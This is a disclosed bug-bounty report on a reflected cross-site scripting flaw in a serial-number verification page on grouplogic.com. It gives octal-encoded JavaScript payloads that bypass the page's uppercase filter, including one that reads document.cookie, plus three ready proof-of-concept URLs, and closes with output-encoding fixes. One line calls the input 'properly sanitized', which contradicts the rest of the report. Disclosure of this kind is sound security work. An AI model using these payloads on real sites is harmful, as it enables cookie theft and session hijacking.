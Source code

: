 # Reflected Cross Site Scripting at http://www.grouplogic.com/files/glidownload/verify3.asp [Uppercase Filter Bypass]

## Report Details
- **Report ID**: 1167034
- **URL**: https://hackerone.com/reports/1167034
- **State**: Closed
- **Severity**: low
- **Submitted**: 2021-04-17T03:24:16.145Z
- **Disclosed**: 2022-06-14T10:20:24.701Z

## Reporter
- **Username**: ub3rsick
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: acronis

## Vulnerability Information
## Summary
The below URL checks if the product serial number provided in the url parameter **serial** is valid or not.
```
http://www.grouplogic.com/files/glidownload/verify3.asp?version=CC1100x7660&serial=<product serial here>
```
If an invalid product serial is provided, the user submitted serial is displayed in the response. It was observed that the serial parameter is properly sanitized and is displayed in the response without output encoding. However, the **input characters were converted to UPPERCASE**, this prevented any attempts to inject arbitrary JavaScript code inside event handlers as UPPERCASE JavaScript built in functions are not executed. ie, **alert() != ALERT()**.

However, if the input JavaScript does not contain any alphabets, they are not converted into uppercase and the JavaScript would get executed. This can be achieved by encoding the characters.

Below reference was used in encoding strings so that only numbers were present in injected JavaScript.
Reference: https://www.ic.unicamp.br/~stolfi/EXPORT/www/ISO-8859-1-Encoding.html

Inject any of below payloads in **serial** parameter to trigger XSS.

Payload to run **alert(1)** :
```
[]["\146\151\154\164\145\162"]["\143\157\156\163\164\162\165\143\164\157\162"]("\141\154\145\162\164\50\61\51")()
```
Payload to run **alert(document.domain)** :
```
[]["\146\151\154\164\145\162"]["\143\157\156\163\164\162\165\143\164\157\162"]("\141\154\145\162\164\50\144\157\143\165\155\145\156\164\056\144\157\155\141\151\156\51")()
```
Payload to run **alert(document.cookie)** :
```
[]["\146\151\154\164\145\162"]["\143\157\156\163\164\162\165\143\164\157\162"]("\141\154\145\162\164\50\144\157\143\165\155\145\156\164\056\143\157\157\153\151\145\51")()
```

## Steps To Reproduce
Navigate to any of  below URL from a browser to trigger XSS:

```
PoC 1:
http://www.grouplogic.com/files/glidownload/verify3.asp?version=CC1100x7660&serial=%3Ch1+onmouseover=[][%22\146\151\154\164\145\162%22][%22\143\157\156\163\164\162\165\143\164\157\162%22](%22\141\154\145\162\164\50\144\157\143\165\155\145\156\164\056\144\157\155\141\151\156\51%22)()%3Etest%3C/h1%3E

PoC 2:
http://www.grouplogic.com/files/glidownload/verify3.asp?version=CC1100x7660&serial=%3Cimg+src=x+onerror=[][%22\146\151\154\164\145\162%22][%22\143\157\156\163\164\162\165\143\164\157\162%22](%22\141\154\145\162\164\50\144\157\143\165\155\145\156\164\056\144\157\155\141\151\156\51%22)()%3Etest%3C/h1%3E

PoC3:
http://www.grouplogic.com/files/glidownload/verify3.asp?version=CC1100x7660&serial=%3Cimg+src=x+onerror=[][%22\146\151\154\164\145\162%22][%22\143\157\156\163\164\162\165\143\164\157\162%22](%22\141\154\145\162\164\50\144\157\143\165\155\145\156\164\056\143\157\157\153\151\145\51%22)()%3Etest%3C/h1%3E
```

## Recommendations
It is highly recommended to implement output encoding.
Encode the following characters with HTML entity encoding to prevent switching into any execution context, such as script, style, or event handlers. Using hex entities is recommended in the spec. The 5 characters significant in XML ```(&, <, >, ", ')```:

```
 & --> &amp;
 < --> &lt;
 > --> &gt;
 " --> &quot;
 ' --> &#x27;
```

Reference: https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html

## Impact

XSS can be used to :
- Steal cookies, password
- Website Defacement
- Redirect Victim to Malicious site
- Log keystrokes etc.

## Attachments
- grouplogic-licensepage-xss-reflected-filter-bypass_01.png
- grouplogic-licensepage-xss-reflected-filter-bypass_02.png
- grouplogic-licensepage-xss-reflected-filter-bypass.webm
- grouplogic-licensepage-xss-reflected-filter-bypass_03.png
- grouplogic-licensepage-xss-reflected-filter-bypass_05-xss-domain.png
- grouplogic-licensepage-xss-reflected-filter-bypass_04-onmouseover-domain.png
- grouplogic-licensepage-xss-reflected-filter-bypass_06-xss-cookie.png
